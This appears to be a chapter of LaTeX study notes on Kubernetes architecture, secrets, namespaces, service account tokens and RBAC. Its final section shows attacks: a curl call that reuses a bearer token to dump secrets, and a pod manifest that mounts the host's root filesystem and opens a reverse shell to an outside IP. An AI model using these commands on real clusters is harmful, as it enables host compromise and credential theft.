\section{Introduction}

\subsection{Architecture}
A Kubernetes cluster is made of a {\bf master node} and a set of {\bf worker
nodes}.

A {\bf node} operating system with pod or pods.

A {\bf pod} is a wrapper around a container or multiple containers with. A pod
should only contain one application (so usually, a pod run just 1 container).
The pod is the way kubernetes abstracts the container technology running. Each
pod has 1 internal IP address from the internal range of the node. However, it
can be also exposed via a service. The service has also an IP address and its
goal is to maintain the communication between pods so if one dies the new
replacement (with a different internal IP) will be accessible exposed in the
same IP of the service. It can be configured as internal or external. The
service also actuates as a load balancer when 2 pods are connected to the same
service.  When a service is created you can find the endpoints of each service
running kubectl get endpoints.


\begin{figure}[!ht]
  
\includegraphics[width=\linewidth]{network/k8s/images/architecture.png}
  \caption{kubernates architecture}
  \label{fig:k8s-archi}
\end{figure}

 The master node’s role is the C2 for all the other worker nodes. There are
 many containers running on the master node:
 \begin{itemize}
     \item {\bf kube-apiserver}: responsible for validating the configure data for
         the API objects such as pods, services and others. All the traffic in
         the cluster is passes through this container. It also exposes an API
         that allows communication using a client.
     \item {\bf etcd}:  a database of the cluster and contains all the sensitive data
        (tokens, passwords, etc.). Can only be access though kube-apiserver
    \item {\bf scheduler}: in charge to make sure that Pods are matched to
        Nodes so that Kubelet can run them. It has enough intelligence to
         decide which node has more available resources the assign the new pod
         to it. Note that the scheduler doesn't start new pods, it just
         communicate with the Kubelet process running inside the node, which
         will launch the new pod.
     \item {\bf Kube Controller manager}: It checks resources like replica sets
         or deployments to check if, for example, the correct number of pods or
         nodes are running. In case a pod is missing, it will communicate with
         the scheduler to start a new one. It controls replication, tokens, and
         account services to the API.
    \item {\bf Cloud controller manager}: is the specific controller for flow
        controls and applications, i.e: if you have clusters in AWS or
         OpenStack.
 \end{itemize}


On the worker nodes:
\begin{itemize}
    \item {\bf kubelet}: primary agent that receives instructions from the {\bf
        kube-apisever} and is responsible for executing the instruction such as
        deploying pods, which are logical groups of one or more containers, or
        downloading the image for the containers.
    \item {\bf Kube-proxy} service in charge of the communications between the
        apiserver and the node. The base is an IPtables for nodes. Most
        experienced users could install other kube-proxies from other vendors.
 \end{itemize}

When a pod creates data that shouldn't be lost when the pod disappear it should
be stored in a {\bf physical volume}. Kubernetes allow to attach a volume to a
pod to persist the data. The volume can be in the local machine or in a remote
storage. If you are running pods in different physical nodes you should use a
remote storage so all the pods can access it.

\subsection{Secrets}
\begin{verbatim}
Type                                    usage
Opaque                                  arbitrary user-defined data (Default)
kubernetes.io/service-account-token     service account token
kubernetes.io/dockercfg                 serialized ~/.dockercfg file
kubernetes.io/dockerconfigjson          serialized ~/.docker/config.json file
kubernetes.io/basic-auth                credentials for basic authentication
kubernetes.io/ssh-auth                  credentials for SSH authentication
kubernetes.io/tls                       data for a TLS client or server
bootstrap.kubernetes.io/token           bootstrap token data
\end{verbatim}

The Opaque type is the default one, the typical key-value pair defined by users.

The following configuration file defines a secret called mysecret with 2
key-value pairs \verb+username: YWRtaW4=+ and \verb+password: MWYyZDFlMmU2N2Rm+. 
It also defines a pod called \verb+secretpod+ that will have
the username and password defined in mysecret exposed in the environment
variables \verb+SECRET_USERNAME+  and \verb+SECRET_PASSWOR+. It will also mount
the username secret inside mysecret in the path
\verb+/etc/foo/my-group/my-username+ with \verb+0640+ permissions.
\begin{verbatim}
apiVersion: v1
kind: Secret
metadata:
  name: mysecret
type: Opaque
data:
  username: YWRtaW4=
  password: MWYyZDFlMmU2N2Rm
---
apiVersion: v1
kind: Pod
metadata:
  name: secretpod
spec:
  containers:
  - name: secretpod
    image: nginx
    env:
      - name: SECRET_USERNAME
        valueFrom:
          secretKeyRef:
            name: mysecret
            key: username
      - name: SECRET_PASSWORD
        valueFrom:
          secretKeyRef:
            name: mysecret
            key: password
    volumeMounts:
    - name: foo
      mountPath: "/etc/foo"
  restartPolicy: Never
  volumes:
  - name: foo
    secret:
      secretName: mysecret
      items:
      - key: username
        path: my-group/my-username
        mode: 0640
\end{verbatim}


\subsection{Namespaces}
Kubernetes supports multiple virtual clusters backed by the same physical
cluster.  These virtual clusters are called {\bf namespaces}. 
Namespaces provide a scope for names. Names of resources need to be unique
within a namespace, but not across namespaces. Namespaces cannot be nested
inside one another and each Kubernetes resource can only be in one namespace.

There are 4 namespaces by default if you are using minikube:
\begin{itemize}
    \item default
    \item kube-node-lease
    \item kube-public
    \item kube-system
\end{itemize}


\subsection{Accessing Kubernetes}
There are three authentication and authorization stages that take place when
the API server receives a request:
\begin{itemize}
    \item {\bf Authentication}: is done with either certificates, tokens or basic authentication. 
    \item {\bf Authorization} (RBAC, Node, ABAC or Webhook)
    \item {\bf Admission Control}: These controllers are pieces of software that can
        access the content of the objects being created by the requests. For
        example, an admission controller named AlwaysPullImages modifies every
        new pod to force the image pull policy to Always. AlwaysPullImages
        admission controller prevents other pods from reusing the image and
        forces registry authentication. Without this, any pod from any user can
        use the image by its name, without any authorization check against the
        image.a
\end{itemize}

\subsubsection{Service Account Tokens}
{\bf ServiceAccount} is an object used to provide an identity for processes
that run in a pod. Every service account has a secret related to it and this
secret contains a bearer token (jWT). With this token an attacker can easily
impersonate the service account and use REST API.
\begin{verbatim}
curl -k -v \
    -H "Authorization: Bearer $TOEKN"  \
    -H 'Content-Type: application/json" \
    https://<IP>:<PORT>/api/v1/namespaces/default/secrets
\end{verbatim}

Almost every pod will have a service account token mounted to one of the following paths:
\begin{verbatim}
/run/secrets/kubernetes.io/serviceaccount/token
/var/run/secrets/kubernetes.io/serviceaccount/token
\end{verbatim}

{\bf Hot pods} are pods containing a privileged service account token.

\subsubsection{RBAC}
RBAC’s permission is built from three individual parts (Figure 5):
\begin{itemize}
    \item \verb+Role\ClusterRole+: contains rules that represent a set of
        permissions. Each rule contains resources and verbs. The verb is the
        action that will apply on the resource.
    \item \verb+Subject+ the object (User, Group or ServiceAccount) that will
        receive the permissions.
    \item \verb+RoleBinding\ClusterRoleBinding+: connection between
    \verb+Role\ClusterRole+ and the \verb+subject+.
\end{itemize}

\begin{figure}[!ht]
  
\includegraphics[width=\linewidth]{network/k8s/images/rbac.png}
  \caption{kubernates RBAC}
  \label{fig:k8s-rbac}
\end{figure}

The difference between \verb+Roles+ and \verb+ClusterRoles+ is just where the
role will be applied. A \verb+Role+ will grant access to only one specific
namespace, while a \verb+ClusterRole+ can be used in all namespaces in the
cluster. Moreover, \verb+ClusterRoles+ can also grant access to:
\begin{itemize}
    \item \verb+cluster-scoped*+resources (like nodes).
    \item \verb+non-resource+ endpoints (like \verb+/healthz+).
    \item namespaced resources (like Pods), across all namespaces.
\end{itemize}

In the template of a Role or a ClusterRole you will need to indicate the name of the role, the namespace (in roles) and then the apiGroups, resources and verbs of the role:
\begin{itemize}
    \item \verb+apiGroups+ is an array that contains the different API
        namespaces that this rule applies to. For example, a Pod definition
        uses apiVersion: v1. It can has values such as
        \verb+rbac.authorization.k8s.io+ or \verb+[\*]+.
    \item The \verb+resources+ is an array that defines which resources this
        rule applies to. You can find all the resources with: \verb+kubectl api-resources --namespaced=true+ 
    \item  \verb+verbs+ is an array that contains the allowed verbs. The verb
        in Kubernetes defines the type of action you need to apply to the
        resource. 
\end{itemize}

HTTP verb    request verb

POST         create
GET, HEAD    get (for individual resources), 
             list (for collections, including full object content), 
             watch (for watching an individual resource or collection of resources)
PUT          update
PATCH        patch
DELETE       delete (for individual resources), deletecollection (for collections)


\begin{verbatim}
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  namespace: defaultGreen
  name: pod-and-pod-logs-reader
rules:
- apiGroups: [""]
  resources: ["pods", "pods/log"]
  verbs: ["get", "list", "watch"]

apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  # "namespace" omitted since ClusterRoles are not namespaced
  name: secret-reader
rules:
- apiGroups: [""]
  resources: ["secrets"]
  verbs: ["get", "watch", "list"]
\end{verbatim}

A role binding grants the permissions defined in a role to a user or set of
users. It holds a list of subjects (users, groups, or service accounts), and a
reference to the role being granted. A \verb+RoleBinding+ grants permissions
within a specific namespace whereas a \verb+ClusterRoleBinding+ grants that
access cluster-wide.

\begin{verbatim}
apiVersion: rbac.authorization.k8s.io/v1
# This role binding allows "jane" to read pods in the "default" namespace.
# You need to already have a Role named "pod-reader" in that namespace.
kind: RoleBinding
metadata:
  name: read-pods
  namespace: default
subjects:
# You can specify more than one "subject"
- kind: User
  name: jane # "name" is case sensitive
  apiGroup: rbac.authorization.k8s.io
roleRef:
  # "roleRef" specifies the binding to a Role / ClusterRole
  kind: Role #this must be Role or ClusterRole
  name: pod-reader # this must match the name of the Role or ClusterRole you wish to bind to
  apiGroup: rbac.authorization.k8s.io
\end{verbatim}

Permissions are additive so if you have a clusterRole with “list” and “delete”
secrets you can add it with a Role with “get”. So be aware and test always your
roles and permissions and specify what is ALLOWED, because everything is DENIED
by default.

\subsection{Risky Permissions and action}

\subsubsection{Listing secrets}
\begin{verbatim}
kubectlz get secrets -O yam --context=$CONTEX
\end{verbatim}


\subsubsection{Creating a pod}
\begin{verbatim}
$ cat jubeaz.yml 
apiVersion: v1
kind: Pod
metadata:
  name: jubeaz2
  namespace: default
spec:
  containers:
  - name: jubeaz2
    image: nginx:1.14.2
    command: ["/bin/bash"]
    args: ["-c", "/bin/bash -i >& /dev/tcp/10.10.16.3/4444 0>&1"]
    volumeMounts:
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:
      path: /
  automountServiceAccountToken: true
  hostNetwork: true

$ kubectlz apply -f ./jubeaz.yml 
pod/jubeaz2 created
\end{verbatim}
\subsubsection{Impersonating privileged accounts}
\subsubsection{Creating privileged RoleBindings}



